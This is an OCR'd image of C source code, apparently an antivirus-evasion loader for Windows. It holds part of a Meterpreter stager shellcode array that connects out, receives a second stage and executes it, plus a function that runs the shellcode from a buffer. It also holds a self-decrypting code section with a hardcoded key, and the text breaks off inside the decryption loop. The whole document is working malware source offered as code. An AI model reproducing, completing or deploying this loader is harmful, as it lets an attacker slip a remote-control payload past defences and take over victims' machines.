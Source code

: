 ```c
"\xdb\x53\x68\x02\x00\x00\x50\x89\xe6\x6a\x10\x56\x57\x68\xc2"
"\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff\xd5\x53"
"\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97\x68\x75\x6e\x4d"
"\x61\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
"\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58"
"\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
"\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x85\xf6\x75\xec\xc3";
 
 
/* Launch the meterpreter shellcode */
int shellLaunch()
 {
    /* Declare pointer on function */
    int (*func) ();
 
    /* Cast shellcode into function */
    func = (int (*) ()) buf;
 
    /* Call function (Execute shellcode) */
    (int) (*func) ();
}
 
 
// .stub SECTION , the following part is not encrypted.
#pragma section(".stub", execute, read, write)
#pragma code_seg(".stub")
#pragma section(".stubdata", read, write)
// Merge  .stubdata into .stub (decryption part)
#pragma comment(linker,"/MERGE:.stubdata=.stub")
 
// This will put out strings and global variables in .stubdata segment
#pragma data_seg(".stubdata")
#pragma const_seg(".stubdata")
// Executable code will go in .stub section
#pragma code_seg(".stub")
 
 
// Next data are signature recognized by cryptor to patch the target
// 下一个数据是加密器识别的签名以修补目标
#define CODE_BASE_ADDRESS	0x15151515 
#define CODE_SIZE			0x14141414 
 
/* Decrypt .code block encrypted by cryptor */
/* In this function do not declare array to avoid security cookies checks (see http://msdn.microsoft.com/en-us/library/8dbf701c.aspx) */
/* Or disable security check (GS- option) on prog compilation */
void decryptCodeSection()
{
	unsigned char *ptr;
	long int i;
	long int nbytes;
	DWORD patience;
	DWORD codeAddr;
 
	int cpt = 0;
 
	BYTE  key[] = { 'a','b','a','b','a','b','a','b','\0'};
	int keyLength = 8;
	ptr = (unsigned char *)CODE_BASE_ADDRESS;
	nbytes = CODE_SIZE;
 
	// Decrypt code segment    
        for( i = 0 ; i < nbytes ; i++ )
```